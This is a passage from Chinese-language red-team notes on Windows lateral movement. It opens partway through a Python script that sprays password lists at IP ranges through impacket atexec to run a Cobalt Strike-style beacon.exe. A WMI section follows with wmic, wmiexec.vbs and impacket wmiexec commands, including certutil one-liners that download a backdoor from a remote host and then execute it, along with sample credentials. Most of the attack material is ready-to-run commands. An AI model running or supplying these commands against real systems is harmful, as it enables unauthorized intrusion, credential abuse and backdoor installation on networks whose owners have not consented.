 ~~~python
                os.system(exec1)
                os.system(exec2)

def zx():#执行后门
    for ip in ips:
        for user in users:
            for mima in passs:
                #exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
                exec1 = 'D:\Myproject\\venv\Scripts\python.exe D:\Myproject\impacket-master\examples\\atexec.py ./administrator:' + mima + '@' + ip + ' "c:/beacon.exe"'
                exec2 = 'D:\Myproject\\venv\Scripts\python.exe D:\Myproject\impacket-master\examples\\atexec.py god/' + user + ':' + mima + '@' + ip + ' "c:/beacon.exe"'
                #exec3='atexec.exe ./administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
                print('--->' + exec1 + '<---')
                print('--->' + exec2 + '<---')
                os.system(exec1)
                os.system(exec2)

if __name__ == '__main__':
    xz()
    zx()

~~~



#### WMI

135端口

~~~
// 1.单执行:不支持hash
wmic /node:192.168.52.38 /user:administrator /password:admin!@45 process call create "cmd.exe /c certutil -urlcache -split -f http://xxxx/shell.exe"

// 2.反弹shell形式，cs无法利用
cscript //nologo wmiexec.vbs /shell 192.168.52.138 administrator A@2019gaokaowar
~~~

wmiexec.vbs放在上面执行就可以了

[![p9Svkkj.png](https://s1.ax1x.com/2023/04/15/p9Svkkj.png)](https://imgse.com/i/p9Svkkj)

[![p9SvAts.png](https://s1.ax1x.com/2023/04/15/p9SvAts.png)](https://imgse.com/i/p9SvAts)

~~~
// 3.利用impacket套件
wmiexec ./administrator:A@2019gaokaowar@192.168.52.138 "whoami"
wmiexec -hashes:xxxxxxxxxxxxxxxx ./administrator@192.168.52.138 "whoami"
// 下载后门，并执行
wmiexec ./administrator:A@2019gaokaowar@192.168.52.138 "certutil -urlcache -split -f http://192.168.52.143/4444.exe c:/beacon.exe"

wmiexec ./administrator:A@2019gaokaowar@192.168.52.138 "c:/beacon.exe"
~~~
